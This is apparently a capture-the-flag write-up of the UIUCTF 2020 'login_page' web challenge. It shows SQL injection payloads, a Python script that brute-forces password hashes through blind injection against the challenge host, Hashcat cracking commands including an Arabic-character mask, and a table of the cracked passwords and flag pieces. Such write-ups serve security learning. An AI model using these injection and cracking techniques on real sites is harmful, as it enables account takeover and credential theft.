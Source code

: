 ```yaml
---
layout: post
title: "UIUCTF 2020 Writeups"
categories: ctf
---
```


## Introduction {#intro}
{: style="text-align: center"}

| Challenge Name | Category | Solves | Points |
|:--------------:|:--------:|:------:|:------:|
|[login_page](#login_page) | Web | 23 | 200 |


----------------

## login_page {#login_page}
{: style="text-align: center"}
#### Category: Web | Solves: 23 | Points: 200
{: style="text-align: center"}

----------------

{:refdef: style="text-align: center;"}
![login_page challenge description](https://i.imgur.com/mCYRHDL.png){: .imgCenter}
{: refdef}

The site is rather simple, with only a small login box and a user lookup feature.  Since we're told the site is running SQLite, it's a safe we're looking for something revolving around an injection. We try searching for just the SQLite wildcard "%" (which matches any string of 0 or more characters) and we're presented with a nice list of all the users in the database. 

{:refdef: style="text-align: center;"}
![user list found using sqlite wildcard](https://i.imgur.com/p5ULjCj.png){: .imgCenter}
{: refdef}

From here, we try to log in as Alice and are told we have the wrong password, but also given a password hint. 

{:refdef: style="text-align: center;"}
![login hint for alice](https://i.imgur.com/24imHr2.png){: .imgCenter}
{: refdef}

After playing around with injections for a little while, we find a nested SELECT query which proves to be extremely useful. By querying the `sqlite_master` table we can ask for data from any column in the database, but we can't actually SEE it. When we combine the nested SELECT query with a conditional AND statement, we can start to piece together the contents of those columns.

Through trial and error, we find that there are three basic ways in which the server can respond to our queries: with data, with no data, or with an error. Each of these happens in a different situation and gives us more insight into the structure of the database.

First, since we already know `USERNAME` exists, we use this as a baseline for a known-good query. We see that we get user data back when a specific column exists.
`%" AND username in (SELECT username FROM sqlite_master where username like "%") --`

Next, we try to query columns for users we know don't exist.  This simply returns no information at all, without giving us any errors.
`%" AND username in (SELECT username FROM sqlite_master where username like "FAKE") --`

Lastly, we try a non-existent column to establish a baseline response for faulty queries.  When this is the case, we get the message `ERROR: Something went wrong!` We also get this error when we forget to comment out otherwise good, working queries by ending the query with the SQL single-line comment symbol `--`
`%" AND username in (SELECT username FROM sqlite_master where FAKE like "%") --`

Using this knowledge we can guess at what the password column must be called, and after a couple tries we find that "password_hash" doesn't throw us any errors.  Now that we know what we're up against, we can switch up our query and use our old wildcard friend to brute-force the hash 1 character at a time by using a query like:
`%" AND username in (SELECT username FROM sqlite_master where password_hash like "%") --`

Below is Python script that will be responsible for doing all of the heavy lifting. If what we know of the hash so far is correct for that user, the user's information is returned (e.g if Bob's hash starts with `41%`.) If any character of the hash so far is wrong (e.g if we ask if Bob's hash starts with `4F%`) the application won't return us any info at all. This allows us to check for the existence of the `bio` string for each user to make sure we're always on the right track.

{% highlight python %}
import requests
chars = '1234567890abcdef'                    
names = ['alice','bob','carl','dania','noob'] 

def hashfinder(x, name):                      
    url = 'https://login.chal.uiuc.tf/search'
    query = {'request' : name+'" AND username in (SELECT username FROM sqlite_master where password_hash like "'+x+'%") -- -'}
    req = requests.post(url, data=query)      
    if 'is '+name in req.text:                
        return(x)                             

for name in names:                            
    pwhash=''                                 
    while len(pwhash) < 32:                   
        for y in chars:                       
            if hashfinder(pwhash+y, name):    
                pwhash+=y                     
                if len(pwhash) == 32:         
                    print(name +':'+ pwhash)  
{% endhighlight %}

When run, this bad boy gives us the output of:

| name | hash |
|:----:|:----:|
| alice | 530bd2d24bff2d77276c4117dc1fc719 |
| bob | 4106716ae604fba94f1c05318f87e063 |
| carl | 661ded81b6b99758643f19517a468331 |
| dania | 58970d579d25f7288599fcd709b3ded3 |
| noob | 8553127fedf5daacc26f3b677b58a856 |

Now that we have extracted all the hashes, we can get to work trying to crack them using the hints we are given.  Luckily, there is only one hash without a corresponding hint (`8553127fedf5daacc26f3b677b58a856`) and with a simple Google search we find out that the password is `SoccerMom2007`. We use this password to sign in and are given the first part of our flag : `uiuctf{Dump`
Side note: the password/hash combo is on Google because it is in the very popular [RockYou wordlist](https://github.com/praetorian-code/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) that is very commonly used in CTF-like challenges and is even included in Kali Linux (can be found in `/usr/share/wordlists/rockyou.txt.gz`)

The second and third hashes are cracked very quickly with a very basic Hashcat command. It's worth noting that Hashcat has a built in mode for double MD5 (-m 2600), so Bob's password isn't really any harder to crack than Alice's as far as the commands go (although double MD5 is obviously slightly slower to crack.) If you want to learn more about the basics of cracking hashes with Hashcat, you can do so [here](https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/)

Hash number four requires us to build our own wordlist in the format of [Greek God name](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-gods-txt) + [U.S. State name](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-states-txt). This can be accomplished by finding these two separate lists on Google, and mixing with a [quick Python script](https://gist.github.com/sshell/308f3518221d98c16a7b69eb9b209d85#file-combine-py). I'm not going to include it here since it's mundane, but you can click the links if you want to see the lists and code behind this task. We found that the password ended up being `DionysusDelaware` and claimed the 4th piece of the flag.

The fifth and final hash is the most interesting one of the bunch.  The password hint is in Arabic and translates to `My favorite animal (6 characters only)` (this was later updated to specify _Arabic_ characters.) We ran it against a few animal wordlists to make sure it wasn't going to be THAT easy before deciding to crack the hash by guessing Arabic characters. This is tricky, but doable running Hashcat with the following arguments:

`hashcat -m 0 -a 3 --hex-charset -1 d8d9dadb -2 808182838485868788898a8b8c8d8e8f909192939495969798999a9b9c9d9e9fa0a1a2a3a4a5a6a7a8a9aaabacadaeafb0b1b2b3b4b5b6b7b8b9babbbcbdbebf -o output hashes "?1?2?1?2?1?2?1?2?1?2?1?2"`

On this [UTF-8 encoding table,](https://utf8-chartable.de/unicode-utf8-table.pl?start=1536) Arabic letters span 256 characters from `D880` to `DBBF`. We split up these two bytes and create a mask for each, meaning that each single Arabic letter is represented in the mask by a `?1?2` pair. Once we get the rule written, the hash is cracked rather quickly. With the final hash cracked, all we have to do is put together the five pieces of the flag and claim out 200 points!

Here's what all the data looks like when we're all done:

| name | hint | hash | password | flag |
|------|------|------|----------|------|
| `noob` | `(none)` | `8553127fedf5daacc26f3b677b58a856` | `SoccerMom2007` | `uiuctf{Dump` |
| `alice` | `My phone number (format: 000-000-0000)` | `530bd2d24bff2d77276c4117dc1fc719` | `704-186-9744` | `_4nd_un` |
| `bob` | `My favorite 12 digit number (md5 hashed for extra security) [starts with a 10]` | `4106716ae604fba94f1c05318f87e063` | `5809be03c7cc31cdb12237d0bd718898` | `h45h_63` |
| `carl` | `My favorite Greek God + My least favorite US state (no spaces)` | `661ded81b6b99758643f19517a468331` | `DionysusDelaware` | `7_d4t_` |
| `dania` | `الحيوان المفضل لدي (6 أحرف عربية فقط)` | `58970d579d25f7288599fcd709b3ded3` | `طاووسة` | `c45h}` |

----------------

{:refdef: style="text-align: center;"}
[--- Back to Top ---](#intro)
{: refdef}

----------------
